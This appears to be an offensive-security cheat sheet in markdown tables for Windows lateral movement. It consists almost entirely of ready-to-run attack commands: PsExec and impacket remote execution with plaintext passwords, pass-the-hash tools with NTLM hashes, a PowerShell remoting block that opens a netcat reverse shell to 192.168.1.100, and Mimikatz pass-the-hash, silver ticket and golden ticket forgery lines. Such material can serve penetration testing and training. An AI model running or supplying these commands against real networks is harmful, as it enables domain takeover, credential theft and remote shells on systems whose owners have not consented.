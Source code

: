 
### Commands Execute Remotely using Both Plaintext and NTLM


| for Example |
| ------------- |
| PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd |
| psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig|
| psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig |
| PsExec64.exe \\ninja.corp cmd |
| psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
|pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 cmd.exe|
| pth-wmic -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "select Name from Win32_UserAccount"|
| pth-wims -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "cmd.exe /c   whoami > c:\temp\result.txt" |
| pth-smbclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //x.x.x.10/c$ |
| pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //x.x.x.10 |
|crackmapexec 192.168.1.1 -u Administrator -p '1234567qA' -x whoami|

| PowerShell Remoting |
| ------------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|



### Mimikatz Guide

| Pass-the-Hash  |
| ------------- |
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:ninja.corp  /target:ninja.corp /ntlm:a87f3a337d73085c45f9416be5787d86 /ptt "'|

|Silver Tickets  |
| ------------- |
|kerberos::golden /user:Administrator /domain:testlab.local /sid:S-1-5-21-1516486103-3973840447-1748718438 /target:fs01 /rc4:47b1d9d581f29b3b43845692bd4a0322 /service:cifs /ptt|

|Golden Tickets |
| ------------- |
|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
